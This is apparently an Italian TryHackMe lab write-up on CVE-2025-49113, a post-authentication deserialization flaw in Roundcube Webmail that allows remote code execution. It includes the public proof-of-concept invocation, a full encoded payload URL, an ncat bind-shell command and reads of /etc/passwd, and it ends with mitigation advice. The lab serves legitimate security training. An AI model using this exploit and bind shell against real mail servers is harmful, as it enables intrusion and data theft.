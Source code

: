 
#tryhackmelabs #laboratorio 

https://tryhackme.com/room/roundcubecve202549113

### Introduzione

[Roundcube](https://roundcube.net/) è un progetto di webmail gratuito e open source. È ricco di funzionalità e disponibile in oltre ottanta lingue. Sebbene le sue funzionalità integrate siano numerose, possono essere ulteriormente ampliate grazie al supporto di plug-in di terze parti.

Richiede principalmente un server web con supporto PHP e un server SQL per funzionare. Apache , Nginx e Lighttpd, tra gli altri, possono facilmente soddisfare i requisiti del server web; MySQL, MariaDB, PostgreSQL, SQLite e molti altri possono soddisfare i requisiti del database. Questa versatilità rende Roundcube una scelta molto popolare per la webmail, soprattutto tra i provider di hosting.

Di recente è stata scoperta una vulnerabilità in Roundcube Webmail; interessa tutte le versioni 1.5.x e 1.6.x **prima** delle 1.5.10 e 1.6.11. Questa vulnerabilità consente l'esecuzione di codice remoto ( RCE ) da parte di utenti autenticati; in altre parole, credenziali valide per la webmail sono sufficienti all'attaccante per eseguire comandi sul sistema host. Questa vulnerabilità ha un punteggio di gravità CVSS 3.x di 9,9, ovvero critico. Roundcube ha già rilasciato le versioni 1.5.10 e 1.6.11 e ne [consiglia vivamente l'aggiornamento](https://roundcube.net/news/2025/06/01/security-updates-1.6.11-and-1.5.10) .

In questa sala verrà spiegato cosa rende possibile questa vulnerabilità e verrà illustrato come sfruttarla in un ambiente di laboratorio.

### Contesto tecnico

**La serializzazione** è il processo di conversione di un oggetto, ovvero un'istanza di una classe in PHP , Java o Python, in un formato memorizzabile o trasmissibile. Questo processo è comunemente utilizzato per memorizzare oggetti in file o database e per inviarli in rete, ad esempio tramite API o cookie.

Una **vulnerabilità di deserializzazione** è una falla di sicurezza che si verifica quando un'applicazione deserializza dati non attendibili o manomessi. **La deserializzazione** è il processo di conversione dei dati da un formato serializzato, come un flusso di byte o una stringa, in un oggetto programma. Se questo processo viene eseguito in modo non sicuro, un aggressore può manipolare i dati serializzati per eseguire codice arbitrario o persino aumentare i privilegi, tra le altre azioni dannose.

[Kirill Firsov](https://x.com/k_firsov) ha scoperto una vulnerabilità di deserializzazione in Roundcube Webmail. Hanno condiviso sul loro sito web la linea di pensiero e [la ricerca che ha portato alla scoperta](https://fearsoff.org/research/roundcube) ; è una lettura interessante. La vulnerabilità è causata dal fatto `_from`che la proprietà `upload.php`non viene verificata accuratamente per valori sicuri prima della deserializzazione.

Questa vulnerabilità può essere dedotta dai [commit per la versione 1.5.10](https://github.com/roundcube/roundcubemail/commit/7408f31379666124a39f9cb1018f62bc5e2dc695#diff-e941e729aef9ce9f97dde65bc93b160e6f972cd8731e0dc2002cb34f95e5675bR35) e [per la versione 1.6.11](https://github.com/roundcube/roundcubemail/commit/0376f69e958a8fef7f6f09e352c541b4e7729c4d) . Anche se non hai familiarità con PHP , controllando le righe di commit e i commenti potrai farti un'idea di come questa vulnerabilità è stata risolta. Nello screenshot qui sotto, puoi facilmente dedurre che le righe aggiuntive ora controllano se il parametro URL `_from`contiene caratteri non sicuri.

Questa vulnerabilità consente l'esecuzione di codice remoto tramite la sua deserializzazione non sicura. L'aggressore deve comunque creare un payload affinché la deserializzazione produca il risultato desiderato.

### Exploitation
  
Avviate la macchina virtuale e AttackBox per poter seguire la procedura. (oppure Kali)

La macchina virtuale ha installata la versione 1.6.10 di Roundcube Webmail. Se non hai familiarità con Roundcube Webmail, puoi avviare Firefox su AttackBox ed esplorarne l'interfaccia. Puoi utilizzare le credenziali di Ellie per accedere alla webmail all'indirizzo `http://MACHINE_IP/roundcube`.

- Nome utente:`ellieptic`
- Password:`ChangeMe123`

#### Codice exploit

FearsOff ha pubblicato un codice exploit proof of concept ( PoC ) sul suo [repository GitHub](https://github.com/fearsoff-org/CVE-2025-49113) . Il modo più semplice per seguirlo è scaricare il codice exploit tramite [nome del file] `git clone https://github.com/fearsoff-org/CVE-2025-49113`. Questo è mostrato nel terminale qui sotto.

Terminale Kali

```shell-session
                                                                                                                                                                                    
┌──(kali㉿kali)-[~/Downloads/Laboratori]
└─$ git clone https://github.com/fearsoff-org/CVE-2025-49113
Cloning into 'CVE-2025-49113'...
remote: Enumerating objects: 8, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (7/7), done.
remote: Total 8 (delta 1), reused 8 (delta 1), pack-reused 0 (from 0)
Receiving objects: 100% (8/8), 7.33 KiB | 2.44 MiB/s, done.
Resolving deltas: 100% (1/1), done.
                                                                                                                                                                                    
┌──(kali㉿kali)-[~/Downloads/Laboratori]
└─$ cd CVE-2025-49113/
                                                                                                                                                                                    
┌──(kali㉿kali)-[~/Downloads/Laboratori/CVE-2025-49113]
└─$ ls
CVE-2025-49113.php  rc_install.sh  README.md
                                                          
```



**Nota** : questo `CVE-2025-49113.php`è l'exploit PoC. Se sei un utente free, AttackBox non ha accesso a Internet e devi usare un altro metodo per inserire il file sopra indicato in AttackBox. Un modo semplice sarebbe copiare il file dalla [sua pagina GitHub](https://github.com/fearsoff-org/CVE-2025-49113/blob/main/CVE-2025-49113.php) , creare un nuovo file su AttackBox usando il tuo editor di testo preferito e salvarlo con estensione `.php`.

Esegue `CVE-2025-49113.php`i passaggi necessari per eseguire il payload desiderato sul server di destinazione. Dopo aver recuperato un token CSRF e un cookie di sessione, questo script PHP PoC effettua l'accesso utilizzando il nome utente e la password forniti. I passaggi principali di questo script sono i seguenti:

- Crea un oggetto PHP serializzato dannoso
- Incorpora l'oggetto creato nel `_from`parametro
- Invia una richiesta POST all'endpoint utilizzando il parametro `upload.php`dannoso`_from`

Il parametro dannoso ricevuto verrà deserializzato ed eseguito sul lato server.

#### Esecuzione dell'Exploit

Per eseguire il codice PoC , è necessario utilizzare i seguenti argomenti: `php CVE-2025-49113.php target_url username password command`.

- Il **target_url** dovrebbe essere sostituito dall'URL di Roundcube Webmail, ovvero  http://10.10.177.179/roundcube
- Il **nome utente** e **la password** sono le credenziali valide per accedere alla webmail
- Il **comando** è il “payload” che si desidera venga eseguito sul server di destinazione

Usiamolo `ncat -lvnp 4444 -e /bin/bash`per impostare una shell di binding; questo renderà più facile dimostrare l'exploit e verificare se è stato eseguito correttamente. Un esempio è mostrato nel terminale qui sotto.

Terminale Kali

```shell-session
php CVE-2025-49113.php http://10.10.177.179/roundcube ellieptic ChangeMe123 "ncat -lvnp 4444 -e /bin/bash"
```
```
┌──(kali㉿kali)-[~/Downloads/Laboratori/CVE-2025-49113]
└─$ php CVE-2025-49113.php http://10.10.177.179/roundcube ellieptic ChangeMe123 "ncat -lvnp 4444 -e /bin/bash"
### Roundcube ≤ 1.6.10 Post-Auth RCE via PHP Object Deserialization [CVE-2025-49113]

### Retrieving CSRF token and session cookie...

### Authenticating user: ellieptic

### Authentication successful

### Command to be executed: 
ncat -lvnp 4444 -e /bin/bash

### Injecting payload...

### End payload: http://10.10.177.179/roundcube/?_from=edit-%21%C5%22%C5%3B%C5i%C5%3A%C50%C5%3B%C5O%C5%3A%C51%C56%C5%3A%C5%22%C5C%C5r%C5y%C5p%C5t%C5_%C5G%C5P%C5G%C5_%C5E%C5n%C5g%C5i%C5n%C5e%C5%22%C5%3A%C51%C5%3A%C5%7B%C5S%C5%3A%C52%C56%C5%3A%C5%22%C5%5C%C50%C50%C5C%C5r%C5y%C5p%C5t%C5_%C5G%C5P%C5G%C5_%C5E%C5n%C5g%C5i%C5n%C5e%C5%5C%C50%C50%C5_%C5g%C5p%C5g%C5c%C5o%C5n%C5f%C5%22%C5%3B%C5S%C5%3A%C53%C50%C5%3A%C5%22%C5n%C5c%C5a%C5t%C5+%C5-%C5l%C5v%C5n%C5p%C5+%C54%C54%C54%C54%C5+%C5-%C5e%C5+%C5%2F%C5b%C5i%C5n%C5%2F%C5b%C5a%C5s%C5h%C5%3B%C5%23%C5%22%C5%3B%C5%7D%C5i%C5%3A%C50%C5%3B%C5b%C5%3A%C50%C5%3B%C5%7D%C5%22%C5%3B%C5%7D%C5%7D%C5&_task=settings&_framed=1&_remote=1&_id=1&_uploadid=1&_unlock=1&_action=upload

### Payload injected successfully

### Executing payload...

```

Vale la pena sottolineare che l'exploit potrebbe richiedere uno o due minuti per rispondere e a volte lo script restituisce un messaggio di errore nonostante il payload venga eseguito correttamente sul target. In un tentativo, abbiamo ricevuto il seguente messaggio di errore; tuttavia, la shell di binding è stata configurata correttamente e siamo riusciti a connetterci ad essa dall'AttackBox.

Terminale Kali

```shell-session
PHP Warning:  file_get_contents(http://10.10.177.179/roundcube/): Failed to open stream: HTTP request failed! in /home/kali/Downloads/Laboratori/CVE-2025-49113/CVE-2025-49113.php on line 237
### Error: CSRF token not found in response body
```

Sull'AttackBox, è necessario connettersi alla shell bind in ascolto sulla porta `4444`.

Terminale Kali

```shell-session
nc 10.10.177.179 4444
pwd
/var/www/html/roundcube
whoami
www-data
```

Rispondi alle domande seguenti

Uno degli utenti ha il nome Maggie; qual è il suo cognome?

```
cat /etc/passwd
```
```
cat /etc/passwd|grep "maggie"
maggiebyte:x:1002:1002:Maggie Byte,,,:/home/maggiebyte:/bin/bash
```

```
byte
```

Qual è il valore del flag salvato in `/etc`?
```
ls /etc
```

```
cat /etc/flag.txt
```

```
cat /etc/flag.txt


THM{XXXXXXXXXXXXXXXX}

"After three rounds of coffee, I deserialised the object."

```

```
THM{XXXXXXXXXXXXXXXXX}
```

#### Conclusione e mitigazione

Questa vulnerabilità richiede solo credenziali webmail valide e funziona con le installazioni predefinite. L'exploit può essere difficile da rilevare, considerando che può facilmente essere scambiato per traffico normale. Considerata la gravità dell'exploit, si consiglia agli utenti che utilizzano le versioni 1.5.x e 1.6.x di aggiornare rispettivamente alle versioni 1.5.10 e 1.6.11. Se per qualche motivo l'aggiornamento non fosse fattibile, una possibile mitigazione potrebbe essere il [blocco di`upload.php`](https://www.vicarius.io/vsociety/posts/cve-2025-49113-roundcube-mitigation-script) .

